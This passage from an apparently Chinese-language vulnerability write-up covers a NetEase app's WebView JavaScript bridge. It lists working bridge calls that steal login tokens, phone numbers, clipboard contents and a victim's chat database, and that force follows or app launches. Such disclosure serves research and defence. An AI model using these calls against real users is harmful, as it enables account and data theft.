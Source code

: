     上传非图片文件，例如：/data/data/com.netease.gl/databases/chat_b1fbb501020c46ff88577a3fe103c0ec 为用户的聊天数据库，文件名替换成受害者的uid即可

    ![fileupload](/assets/images/fileupload2.png)

14. 完整的js interface利用列表如下：

        //获取token信息
        WebViewJavascriptBridge.callHandler("getGodlikeInfo", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},function(e){console.log(e)})

        //获取手机客户端用户信息，包括手机号，用户id
        WebViewJavascriptBridge.callHandler("getLogField", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},function(e){console.log(e)})

        //判断应用是否安装
        WebViewJavascriptBridge.callHandler("launchApp", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{iosSchemeProtocol:"",androidPackageName:"com.android.traceur"}},function(e){console.log(e)})

        //启动应用
        WebViewJavascriptBridge.callHandler("launchApp", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{iosSchemeProtocol:"",androidPackageName:"im.yixin",iosDownloadUrl:"",iosStoreKitITunesItemId:"",iosStoreKitAffiliateToken:"10lxv5",iosStoreKitCampaignToken:"gl-jssdk"}},function(e){console.log(e)})

        //控制粘贴板内容
        WebViewJavascriptBridge.callHandler("doCopy", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{text:"gl-jssdk"}},function(e){console.log(e)})

        //获取粘贴板内容
        WebViewJavascriptBridge.callHandler("getClipboardData", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{type:"text/plain"}},function(e){console.log(e)})

        //关注他人
        WebViewJavascriptBridge.callHandler("followUser", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{uid:"fb79313773894347bca73424dedf7913"}},function(e){console.log(e)})

        //打开相册
        WebViewJavascriptBridge.callHandler("chooseImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{count:9,source:"album",front:1,credentialsType:0,credentialsTips:"",waterMarkText:"",waterMarkPosition:"bottomCenter"}},function(e){console.log(e)})
